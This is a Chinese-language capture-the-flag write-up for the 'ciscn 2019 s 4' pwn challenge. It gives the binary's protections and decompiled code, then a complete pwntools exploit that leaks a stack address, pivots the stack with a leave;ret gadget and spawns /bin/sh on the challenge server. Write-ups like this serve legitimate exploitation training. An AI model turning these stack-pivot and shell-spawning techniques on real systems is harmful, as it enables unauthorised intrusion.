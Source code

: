 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 s 4
date: 2022-4-7 15:49:03
permalink: /pages/2e1547494524d1ae
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# ciscn 2019 s 4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

vul函数如下：

```c
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

hack函数如下：

```c
int hack()
{
  return system("echo flag");
}
```

Gadget：

```shell
ROPgadget --binary ciscn_s_4 --only "leave|ret"
Gadgets information
============================================================
0x080484b8 : leave ; ret
0x080483a6 : ret
0x080484ce : ret 0xeac1

Unique gadgets found: 3
```



## 思路分析

1. 目前信息：

   - vul函数可溢出，但只能溢出2个栈帧,载荷不够
   - plt表内有system，无/bin/sh字符串
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 2次read，第1次可以通过printf泄漏ebp地址，减去偏移后可计算出buf地址，第二次采用栈迁移解法，将/bin/sh写入buf处即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
io = remote('node4.buuoj.cn', 27018)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x28
offset = 0x38
payload = flat(['a'*(padding-1), 'b'])
io.sendafter('your name?\n', payload)
io.recvuntil('b')
leak_ebp_addr = u32(io.recv(4))
buf_addr = leak_ebp_addr-offset
success('buf_addr :'+hex(buf_addr))
system_addr = elf.plt['system']
leave_ret_addr = 0x080484b8
payload = flat([buf_addr+0x100, system_addr,0xdeadbeef, buf_addr+16, '/bin/sh\x00'])
payload = payload.ljust(padding, b'\x00')
payload += flat([buf_addr, leave_ret_addr])
io.send(payload)
io.interactive()
```